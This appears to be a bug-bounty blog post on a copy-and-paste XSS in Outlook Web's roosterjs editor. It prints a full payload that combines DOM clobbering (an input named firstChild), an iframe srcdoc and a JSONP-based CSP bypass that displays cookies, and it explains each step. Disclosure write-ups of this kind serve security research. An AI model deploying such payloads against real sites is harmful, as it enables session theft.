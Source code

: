 ```yaml
---
title: Copy and Paste XSS in outlook
author: TheGrandPew
date: 2021-01-26 11:33:00 +0800
categories: [Blogging, Bounties]
tags: [xss, copy&paste, csp]
math: true
toc: true
image: /assets/img/Microsoft-Outlook-logo.jpg
---
```



## The Bug

---

```
<form><iframe srcdoc='<script src="https://ib.adnxs.com/jpt?id=7114452&callback=alert(`Domain:\x20${window.parent.location.href}\nCookies:\x20${window.parent.document.cookie}`);"></script>'></iframe><input name=firstChild></form>
```
Lets skip strait to the bug because thats why your all here. The Bug I found was a copy and paste xss in the wysiwyg email editor in outlook web.

---

## Part One: Understanding the wysiwyg editor in outlook

---

The wysiwyg that outlook uses is called rooster-js https://github.com/microsoft/roosterjs. The part I had a look at was the copy and paste support provided by it, the basic flow of of the wysiwyg cp&paste was that firstly it would get the data off the clipboard as a html string. It will then go and santize the html string with its self rolled html sanitzer (really bad idea cause html sanitizers a hard). Finaly it will go and insert that html into the node of the editor.

---

## Part Two: blowing the brains of the rooster js html sanitizer

---

Due to the html sanitzer I couldn't just insert a normal xss payload, no I needed to find a way to bypass it. The html sanitizer [code](https://github.com/microsoft/roosterjs/blob/de8afd8ef2a40fc07cea01a0f883653fbb808f5f/packages/roosterjs-editor-dom/lib/htmlSanitizer/HtmlSanitizer.ts) I needed to bypass was using the DomParser js api to parse the a html string into a dom tree and then loop through the dom-tree and check for html nodes that are not in its whitelist.


The Bypass I found consited around this snippet of [code](https://github.com/microsoft/roosterjs/blob/de8afd8ef2a40fc07cea01a0f883653fbb808f5f/packages/roosterjs-editor-dom/lib/htmlSanitizer/HtmlSanitizer.ts#L204), the html sanitizer would access the property ?.firstChild of each html node to get the next element in the dom-tree. To bypass this protection I used a teqnique called Dom clobbering to overwrite values like ?.firstChild on a html element so that i can sneek my own html that wont get sanitzed into a html string. The exact dom clobbering payload I used was a form with an input that name was firstChild [```<form><myhtml></myhtml><input name=firstChild>```] this allowed me to place any html I wanted before the input tag exellent! 
 
---

## Part Three: outlooks csp bypass

---

As soon as I had html injection I ran into a problem, because this is dom based xss I can't just put in a script tag beacuse its content is only evaluated during the page load time. Luckly I knew a bypass for that, iframes that use srdoc have full access to the window.parent object and also are evaluated anytime they are appended to the document (not just at onload). Example ```<iframe srcdoc='<script>alert(window.parent.document.cookie)</script>'></iframe>``` would be the same as ```<script>alert(document.cookie)</script>```. After that all I needed was a bypass for its csp rules, to bypass i used the great and mighty site https://csp-evaluator.withgoogle.com/ that told me that the site https://ib.adnxs.com/ hosted a badly filtered jsonp endpoint! 
 
---

## Final words

---

Hopefully you liked my blog, if not then i guess oof. See ya <button onclick="window.close()">Bye</button>

---